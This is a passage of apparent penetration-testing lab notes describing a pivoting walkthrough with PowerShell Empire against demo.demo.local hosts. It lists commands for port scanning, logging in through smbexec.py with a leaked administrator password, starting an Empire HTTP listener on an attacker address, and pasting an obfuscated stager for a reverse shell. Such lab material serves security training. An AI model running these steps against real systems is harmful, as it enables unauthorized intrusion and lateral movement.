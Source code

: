 This approach allows you to safely handle any errors that occur during the download process.

---

## Leveraging Powershell During exploitation - LAB

_**Note: Those Steps Doesn't necessary should be the same in different Labs, You May find some errors and different scenarios based on your target architecture, network topology, etc…**_

_**This Lab Shows How we can pivot through our attacker machine to exploit a vulnerable target and post exploit to accessed/reach the Non-Reachable network target. using Powershell empire and Metasploit**_

### ⇒ Steps: → Don’t Ignore Comments🙂

```bash
# First We Ping our targets to know which Ip is reachable
# 1) ....
Ping demo.demo.local # Reachable
ping demo2.demo.local # Non-Reachable
#--------------------------------
# 2) ....
# Running Nmap Scan on the Reachable target with full port scan parameter.
nmap -p- demo.demo.local # Chacking the non-standured ports in the Results, We find that this is microsoft web server
# -------------------------------
# 3) ....
# Accessing the web page by specifing the hided non-standured port
=> demo.demo.local:4983 # We Find an Admin Credintails in some kind or err :D, So Realistic :)
#--------------------------------
# 4) ....
# SMB port is avaliable so we gonna try to connect with smbexec.py as follows:
smbexec.py 'Administrator:FSR@@sf12345'@demo.demo.local # Auth Successful .., We Have Sys-Previlige
# -------------------------------
# 5) ....
# First thing to do after we gaining access is to show up our network subnet in nedded
# But now lets jumb to ping our Non-Reachable:
ping demo2.demo.local # Yes its Reachable now .. :)
#--------------------------------
# 6) ....
# Time for **Powershell empire**
Powershell-empire server # in new tab ..
Powershell-empire client # in another new tab hah :)
#--------------------------------
# 7) ....
# First Thing to do is establishing a connect on our first target : **demo.demo.local** and utilized staged to get this reverse shell sesstion
(Empire) > uselistener http # 1- Specify your host (attacker Machine) And your port ofc!,
(Empire: uselistener/http) > Set HOST 192.x.x.x
(Empire: uselistener/http) > set PORT 8888 # Or Wahtever ..
(Empire: uselistener/http) > execute # The Listener started
(Empire: uselistener/http) > Listener # To check the listnening ..
(Empire: uselistener/http) > main # To Back to Main Page -> AKA Back to Buessnis.
# Setting Our Stagers ..
(Empire) > usestager multi/launcher
(Empire: usestager/multi/launcher) > set Listener http
(Empire: usestager/multi/launcher) > execute
# This will Generate an obfuscated powershell code that we should run on our target system that we want sesstion on.
#--------------------------------
# 8) ...
-> Copy the obfuscated powershell code an paste it in the smbexec sesstion terminal tab and hit enter..
```